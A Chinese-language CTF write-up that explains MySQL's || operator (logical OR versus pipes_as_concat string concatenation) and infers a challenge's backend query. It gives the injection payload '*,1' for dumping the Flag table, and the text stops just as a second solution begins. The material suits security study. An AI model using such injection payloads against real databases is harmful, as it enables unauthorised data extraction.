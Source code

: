 <img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220126153927429.png" alt="image-20220126153927429" style="zoom: 50%;" />



### ||双作用：或、连接

1. 逻辑或

本地测试

```
SELECT 'a'||'flag'; //0
SELECT 1||'flag'; //1
SELECT 0||'flag'; //0
SELECT 0||id from student;  //1 student表里有id列名
SELECT 0||'id' from student;  //0
SELECT 1||'id' from student;  //1
```

\==》==逻辑或（or），只要||前后是存在的字段名或着非0的数，就判定正确==



2. 连接符，类似concat函数

**sql_mode=pipes_as_concat**：把||当成字符串连接符而非逻辑或运算，==若拼接的是列名，则会显示查询结果再拼接==

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220126160732988.png" alt="image-20220126160732988" style="zoom:50%;" />

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220126160820866.png" alt="image-20220126160820866" style="zoom:50%;" />



猜测：

> **这道题目需要我们去对后端语句进行猜测，有点矛盾的地方在于其描述的功能和实际的功能似乎并不相符，==通过输入非零数字得到的回显1和输入其余字符得不到回显来判断出内部的查询语句可能存在有||==，也就是select 输入的数据||内置的一个列名 from 表名，进一步进行猜测即为select post进去的数据||flag from Flag(含有数据的表名，通过堆叠注入可知)，需要注意的是，此时的||起到的作用是or的作用**

关键，执行的sql语句是

```
$sql = "select ".$post['query']."||flag from Flag";
$sql = "select xxx ||flag from Flag";
```



解法1：

`*,1`

```
select *,1 ||flag from Flag;
即select *,1 from Flag;
即查出了Flag表中的所有内容+新增一列全1
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220126163149707.png" alt="image-20220126163149707" style="zoom:80%;" />

解法2：
